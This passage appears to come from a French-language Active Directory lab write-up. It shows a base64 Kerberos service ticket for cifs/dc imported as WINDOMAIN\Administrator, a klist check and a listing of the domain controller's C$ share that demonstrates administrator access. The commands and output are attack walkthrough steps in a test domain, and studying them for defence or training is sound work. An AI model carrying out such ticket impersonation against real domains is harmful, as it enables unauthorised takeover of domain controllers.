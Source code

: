 ```cmd
[*] base64(ticket.kirbi) for SPN 'cifs/dc':

      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
      TE9DQUypFTAToAMCAQKhDDAKGwRjaWZzGwJkYw==
[+] Ticket successfully imported!

```

Nous avons bien notre ticket de service pour **CIFS/DC** au nom de **WINDOMAIN\Administrator** :
```cmd
C:\tools> klist
...
#1>     Client: Administrator @ WINDOMAIN.LOCAL
        Server: cifs/dc @ WINDOMAIN.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 9/25/2020 18:05:46 (local)
        End Time:   9/26/2020 4:05:07 (local)
        Renew Time: 10/2/2020 18:05:07 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
...
```

Testons :
```cmd
C:\tools>dir \\DC\C$
 Volume in drive \\DC\C$ is Windows 2019
 Volume Serial Number is 28C8-9A14

 Directory of \\DC\C$

09/27/2020  08:50 AM    <DIR>          PerfLogs
09/27/2020  08:06 AM    <DIR>          Program Files
09/27/2020  08:00 AM    <DIR>          Program Files (x86)
10/20/2020  01:07 PM    <DIR>          tmp
09/27/2020  08:00 AM    <DIR>          Users
```